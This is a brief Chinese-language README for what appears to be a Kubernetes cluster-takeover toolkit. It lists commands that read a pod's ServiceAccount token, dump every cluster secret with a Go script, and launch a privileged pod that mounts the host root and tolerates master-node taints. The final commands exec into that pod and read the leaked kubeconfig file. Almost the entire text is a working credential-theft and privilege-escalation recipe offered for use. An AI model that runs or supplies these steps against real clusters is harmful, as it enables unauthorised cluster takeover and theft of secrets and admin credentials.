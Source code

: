 ### README

1. 获取过度权限ServiceAccount token：

```bash
# 如果你在pod里
cat /var/run/secrets/kubernetes.io/serviceaccount/token
# 如果你在节点上
kubectl describe secret <serviceaccount-token> # 将 <serviceaccount-token> 替换为具有过度权限的 ServiceAccount 的 Token 名称
```

2. 结合list secrets 和 create pods权限接管集群例子

你需要先在go代码中补充你想要使用的token和host等信息

```bash
# 获取整个集群secrets，得到具有create pods权限的token
go run listSecret.go
# 使用此token创建挂载根目录的特权容器，并设置污点容忍将它排斥到master节点上，泄漏kubeconfig配置文件
go run createPod.go
# 进入到此特权容器
kubectl exec -it nginx-pod-mount2 -n default -- bash
# 查看泄露的kubeconfig文件
cat /host/home/ubunt/.kube/config
```

